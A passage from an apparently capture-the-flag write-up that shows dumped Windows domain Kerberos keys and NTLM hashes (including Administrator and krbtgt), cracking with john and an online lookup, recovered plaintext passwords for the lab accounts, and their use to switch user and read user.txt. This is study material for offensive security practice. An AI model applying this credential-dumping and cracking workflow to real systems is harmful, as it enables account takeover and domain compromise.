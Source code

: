 ```
Administrator:aes256-cts-hmac-sha1-96:6c53b16d11a496d0535959885ea7c79c04945889028704e2a4d1ca171e4374e2
Administrator:aes128-cts-hmac-sha1-96:e2a25474aa9eb0e1525d0f50233c0274
Administrator:des-cbc-md5:75375eda54757c2f
WIN-3G2B0H151AC$:aes256-cts-hmac-sha1-96:84e3d886fe1a81ed415d36f438c036715fd8c9e67edbd866519a2358f9897233
WIN-3G2B0H151AC$:aes128-cts-hmac-sha1-96:e1a487ca8937b21268e8b3c41c0e4a74
WIN-3G2B0H151AC$:des-cbc-md5:b39dc12a920457d5
WIN-3G2B0H151AC$:rc4_hmac:668d49ebfdb70aeee8bcaeac9e3e66fd
krbtgt:aes256-cts-hmac-sha1-96:14134e1da577c7162acb1e01ea750a9da9b9b717f78d7ca6a5c95febe09b35b8
krbtgt:aes128-cts-hmac-sha1-96:8b96c9c8ea354109b951bfa3f3aa4593
krbtgt:des-cbc-md5:10ef08047a862046
krbtgt:rc4_hmac:ca1ccefcb525db49828fbb9d68298eee
WIN2K8$:aes256-cts-hmac-sha1-96:289dd4c7e01818f179a977fd1e35c0d34b22456b1c8f844f34d11b63168637c5
WIN2K8$:aes128-cts-hmac-sha1-96:deb0ee067658c075ea7eaef27a605908
WIN2K8$:des-cbc-md5:d352a8d3a7a7380b
WIN2K8$:rc4_hmac:160f6c1db2ce0994c19c46a349611487
WINXP1$:aes256-cts-hmac-sha1-96:347a128a1f9a71de4c52b09d94ad374ac173bd644c20d5e76f31b85e43376d14
WINXP1$:aes128-cts-hmac-sha1-96:0e4c937f9f35576756a6001b0af04ded
WINXP1$:des-cbc-md5:984a40d5f4a815f2
WINXP1$:rc4_hmac:6f5e87fd20d1d8753896f6c9cb316279
WIN2K31$:aes256-cts-hmac-sha1-96:f486b86bda928707e327faf7c752cba5bd1fcb42c3483c404be0424f6a5c9f16
WIN2K31$:aes128-cts-hmac-sha1-96:1aae3545508cfda2725c8f9832a1a734
WIN2K31$:des-cbc-md5:4cbf2ad3c4f75b01
WIN2K31$:rc4_hmac:cdd7a7f43d06b3a91705900a592f3772
WIN7$:aes256-cts-hmac-sha1-96:b9921a50152944b5849c706b584f108f9b93127f259b179afc207d2b46de6f42
WIN7$:aes128-cts-hmac-sha1-96:40207f6ef31d6f50065d2f2ddb61a9e7
WIN7$:des-cbc-md5:89a1673723ad9180
WIN7$:rc4_hmac:24473180acbcc5f7d2731abe05cfa88c
atanas:aes256-cts-hmac-sha1-96:933a05beca1abd1a1a47d70b23122c55de2fedfc855d94d543152239dd840ce2
atanas:aes128-cts-hmac-sha1-96:d1db0c62335c9ae2508ee1d23d6efca4
atanas:des-cbc-md5:6b80e391f113542a
[*] Cleaning up... 
```
Fresh hashes! If we save them we can see some we might want to crack
```
cat dump.txt  | grep ':::'
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e64fe0f24ba2489c05e64354d74ebd11:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WIN-3G2B0H151AC$:1000:aad3b435b51404eeaad3b435b51404ee:668d49ebfdb70aeee8bcaeac9e3e66fd:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ca1ccefcb525db49828fbb9d68298eee:::
WIN2K8$:1103:aad3b435b51404eeaad3b435b51404ee:160f6c1db2ce0994c19c46a349611487:::
WINXP1$:1104:aad3b435b51404eeaad3b435b51404ee:6f5e87fd20d1d8753896f6c9cb316279:::
WIN2K31$:1105:aad3b435b51404eeaad3b435b51404ee:cdd7a7f43d06b3a91705900a592f3772:::
WIN7$:1106:aad3b435b51404eeaad3b435b51404ee:24473180acbcc5f7d2731abe05cfa88c:::
atanas:1108:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
```
Passed into john only found the guest password but luckily these were unsalted hashes. This means we can check websites like crackstation.net for the hashes.
```
e64fe0f24ba2489c05e64354d74ebd11	NTLM	f16tomcat!
31d6cfe0d16ae931b73c59d7e0c089c0	NTLM	
668d49ebfdb70aeee8bcaeac9e3e66fd	Unknown	Not found.
ca1ccefcb525db49828fbb9d68298eee	Unknown	Not found.
160f6c1db2ce0994c19c46a349611487	Unknown	Not found.
6f5e87fd20d1d8753896f6c9cb316279	Unknown	Not found.
cdd7a7f43d06b3a91705900a592f3772	Unknown	Not found.
24473180acbcc5f7d2731abe05cfa88c	Unknown	Not found.
2b576acbe6bcfda7294d6bd18041b8fe	NTLM	Password123!
```
Result: credentials for admin and atanas users. From here we can upgrade our previous shell with `su - atanas` and `f16tomcat!` to grab user.txt
